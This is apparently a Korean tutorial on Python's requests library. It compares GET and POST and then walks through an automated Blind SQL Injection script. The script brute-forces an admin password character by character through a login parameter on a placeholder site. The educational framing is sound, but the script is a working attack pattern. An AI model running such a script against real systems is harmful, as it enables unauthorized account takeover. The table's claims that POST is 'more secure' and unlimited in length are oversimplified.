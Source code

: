 `requests.post`는 `POST` 메소드를 사용해 `HTTP Request`를 보내는 함수로 `URL`, `Header`, `Body`와 함께 요청을 전송할 수 있다.

`GET`과의 차이 중 하나는, `URL`에 드러나는 `Parameter` 대신 `HTTP Body`에 포함되는 `data`를 `URL`에 노출하지 않고 전송한다는 것이다.

### 참고 : `GET`, `POST` 차이점

| 분류                  | GET (params)                                  | POST (data)                               |
|-----------------------|-----------------------------------------------|--------------------------------------------|
| 전송 위치             | URL 쿼리 문자열                               | HTTP 요청 본문                             |
| 보안                  | URL에 노출되므로 상대적으로 덜 안전            | URL에 노출되지 않으므로 더 안전             |
| 데이터 길이 제한      | 있음 (브라우저/서버에 따라 다름)               | 없음 (일반적으로 제한 없음)                |
| 주 사용 목적          | 데이터 조회, 검색 등 (읽기 전용)               | 데이터 생성, 수정, 삭제 등                 |
| 캐싱                  | 일반적으로 캐싱됨                             | 캐싱되지 않음                              |
| Idempotency (멱등성)  | 멱등성 있음                                    | 멱등성 없음 (대부분의 경우)                |

## Blind SQL Injection 자동화 공격 스크립트 작성

`HTTP GET request`로 파라미터를 전달받는 홈페이지에 Blind SQL Injection을 시도한다고 가정해보자. 

로그인 과정에서 사용자에게서 입력되는 아이디와 비밀번호는 출력 가능한 아스키 범위의 문자이기 때문에, Python의 `string` 모듈에 있는 `string.printable`를 이용하여 입력 범위를 지정할 수 있다.

아래의 코드를 한번 살펴보자.

```
#!/usr/bin/python3
import requests
import string

# example URL
url = 'http://example.com/login'

params = {
    'uid': '',
    'upw': ''

}
# ascii printables
tc = string.printable

# 사용할 SQL Injection 쿼리
query = '''admin' and substr(upw,{idx},1)='{val}'-- '''
password = ''

# 비밀번호 길이는 20자 이하라 가정
for idx in range(0, 20):
    for ch in tc:
        # query를 이용하여 Blind SQL Injection 시도
        params['uid'] = query.format(idx=idx+1, val=ch).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        # 응답에 Login success 문자열이 있으면 해당 문자를 password 변수에 저장
        if c.text.find("Login success") != -1:
            password += ch
            break
print(f"Password is {password}")
```
